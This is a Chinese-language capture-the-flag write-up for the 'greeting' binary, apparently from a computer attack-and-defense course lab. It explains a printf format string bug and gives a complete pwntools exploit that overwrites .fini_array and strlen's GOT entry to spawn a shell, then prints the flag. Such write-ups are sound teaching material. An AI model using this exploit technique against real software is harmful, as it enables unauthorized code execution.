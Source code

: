 # greeting

[執行程式]

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/LAB3/image/greeting_topic.jpg)

[解題]

首先執行程式後，會顯示一些訊息並請我們輸入姓名，然後印出問候的訊息。這是一個 32-bit ELF。為了可以對這個執行程式有更進一步的程式分析，接著使用 ghidra 工具進行程式解析，以下為其 main function 的程式內容:

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/LAB3/image/greeting_file.jpg)

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/LAB3/image/greeting_main.jpg)

可以看到 main function 中存在一個格式化字符串漏洞，當它列印出來時，它使用 printf 語句，然後直接結束。printf 語句中的格式字符串負責程序內的重要流量控制，如果受到攻擊者的控制，可用於以各種方式利用應用程序。簡單來說，攻擊者可以讀寫任意內容。

因此，我們可以這樣做:
* 用 main function 覆蓋 .fini_array:將 .fini_array 的第一個 entry 換成 main function 的地址。
* 覆蓋 strlen 的 GOT entry:將 strlen 的 GOT entry 改為 system 的 PLT。

這樣程式將會返回到 main function。由於 strlen 的 GOT 已經被改成了 system 的地址，這樣就可以在 getnline function 中輸入 sh 並執行 system("sh")（該函數會在我們輸入時調用strlen）。

根據以上分析，可以開始撰寫 exploit code。

#### exploit.py
```
from pwn import *

# Establish the target process
r = process('greeting')
gdb.attach(r, gdbscript = 'b *0x0804864f')

# The values we will be overwritting
finiArray = 0x08049934
strlenGot = 0x08049a54

# The values we will be overwritting with
getline = 0x8048614
systemPlt = 0x8048490

# Establish the format string
payload = ""

# Just a bit of padding
payload += "xx"

# Address of fini array
payload += p32(finiArray)

# Address of fini array + 2
payload += p32(finiArray + 2)

# Address of got entry for strlen
payload += p32(strlenGot)

# Address of got entry for strlen + 2
payload += p32(strlenGot + 2)

# Write the lower two bytes of the fini array with loop around address (getline setup)
payload += "%34288x"
payload += "%12$n"

# Write the lower two bytes of the plt system address to the got strlen entry
payload += "%65148x"
payload += "%14$n"

# Write the higher two bytes of the two address we just wrote to
# Both are the same (0x804)
payload += "%33652x"
payload += "%13$n"
payload += "%15$n"

# Print the length of our fmt string (make sure we meet the size requirement)
print "len: " + str(len(payload))

# Send the format string
r.sendline(payload)

# Send '/bin/sh' to trigger the system('/bin/sh') call
r.sendline('/bin/sh')

# Drop to an interactive shell
r.interactive()
```
這樣就可以順利找出 flag 了。
TWCTF{51mpl3_FSB_r3wr173_4nyw4r3}

#### 參考資料
* https://nuc13us.wordpress.com/2016/09/05/tokyo-westernsmma-ctf-2nd-2016-greeting-150pwn/
* https://bruce30262.github.io/mma-2nd-ctf-2016-greeting/
* https://github.com/guyinatuxedo/ctf/blob/master/tokyowesterns16/pwn/greeting/exploit.py
* https://systemoverlord.com/2014/02/12/printf-format-string-exploitation/
